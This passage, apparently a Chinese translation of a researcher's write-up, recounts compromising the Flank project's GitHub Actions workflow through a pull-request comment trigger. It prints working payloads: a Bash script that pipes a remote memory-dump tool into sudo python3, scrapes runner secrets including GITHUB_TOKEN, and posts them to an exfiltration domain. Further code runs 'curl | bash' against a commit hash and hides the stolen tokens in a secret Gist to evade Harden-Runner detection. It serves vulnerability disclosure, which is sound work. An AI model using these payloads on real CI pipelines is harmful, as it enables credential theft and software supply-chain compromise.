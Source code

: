 ```
println("Shell command output: $output")
```  
  
该有效负载使我能够获得对GITHUB_TOKEN具有写入权限和应用程序机密的访问权限。准备好有效负载后，我创建了一个拉取请求草案并发表了评论@flank-it。这触发了分支上下文中工作流的执行main。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taexnzictf4LQ51vt1O6y5BAzrjntBiakdwoNS7sgVMB4ODdJCCQxlWC3Ut3MtibDdDib5aEHuEPeb0CwQ/640?wx_fmt=png&from=appmsg "")  
  
不久之后，我收到了要点形式的秘密。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taexnzictf4LQ51vt1O6y5BAzW7oibRSf7p7bAd1EmicfMiapFDX2yhGgVLljiacZhQPDdqBia7xXRSls5hw/640?wx_fmt=png&from=appmsg "")  
  
4. Harden-Runner 检测  
  
如果您查看我的有效负载，您可能会注意到我正在从名为 README 的基本存储库下载原始文件。通常，我只是将以下有效负载托管在 Gist 中并将其通过管道传输到 Bash，如下所示：  
```
# Replace with Burp collaborator domain or similar.
YOUR_EXFIL="your-exfil-domain.com"
 
# Uses memory dump technique from github.com/nikitastupin/pwnhub / with regex to parse out all secret values (including GITHUB_TOKEN)
if [[ "$OSTYPE" == "linux-gnu" ]]; then
  B64_BLOB=`curl -sSf https://gist.githubusercontent.com/nikitastupin/30e525b776c409e03c2d6f328f254965/raw/memdump.py | sudo python3 | tr -d '\0' | grep -aoE '"[^"]+":\{"value":"[^"]*","isSecret":true\}' | sort -u | base64 -w 0 | base64 -w 0`
  # Exfil to Burp
  curl -s -d "$B64_BLOB" https://$YOUR_EXFIL/token > /dev/null
else
  exit 0
fi
```  
  
对于 Flank，我在这里运用了一些创造力，因为我注意到工作流程在审核模式下使用 StepSecurity 的Harden-Runner 。由于哈登跑步者更多地接受审计，因此我不必偷偷摸摸地证明该漏洞，但我想看看是否可以绕过检测作为练习。  
  
  
4.1 在分叉网络中提交  
  
我向我的 fork 提交了两个文件。第一个是 Bash 脚本，另一个是 Nikita Stupin 出色的内存转储脚本的副本，我在过去几个月中广泛使用了该脚本。  
  
在 GitHub 中，分叉中的任何提交也在基本存储库中。这意味着您可以从分叉存储库或基础访问相同的提交哈希。这就是为什么我的有效负载引用了基础存储库中的文件。  
```
val output = "curl -sSfL https://github.com/Flank/flank/raw/88e5a56dd3ed78f4f192eadf31634c013dbbf060/README | bash".runCommand()
println("Shell command output: $output")
```  
  
  
4.2 将数据外泄到秘密Gist  
  
由于 Harden Runner 会接收对异常 URL 的请求，因此我没有简单地将编码的 blob 泄露到 Burp，而是使用 GitHub API 以及细粒度的 PAT（我在 PoC 后很快撤销了该 PAT）来将 GCloud 应用程序令牌和 GITHUB_TOKEN 上传到一个秘密要点。  
```
if [[ "$OSTYPE" == "linux-gnu" ]]; then
  B64_BLOB=`curl -sSfL https://github.com/flank/flank/raw/128b43b61fd7da13ea6829d1fbb4d3f028b6cdad/LICENSE | sudo python3 | tr -d '\0' | grep -aoE '"[^"]+":\{"value":"[^"]*","isSecret":true\}' | sort -u | base64 -w 0`
  YEETER_TOKEN="<EXFIL TOKEN>"
  YEETER_TOKEN_DECODED=`echo $YEETER_TOKEN | base64 -d | base64 -d`
 
  curl -L \
    -X POST \
    -H "Accept: application/vnd.github+json" \
    -H "Authorization: Bearer $YEETER_TOKEN_DECODED" \
    -H "X-GitHub-Api-Version: 2022-11-28" \
    https://api.github.com/gists -d '{"public":false,"files":{"Spoils":{"content":"'$B64_BLOB'"}}}'
 
    sleep 900
else
```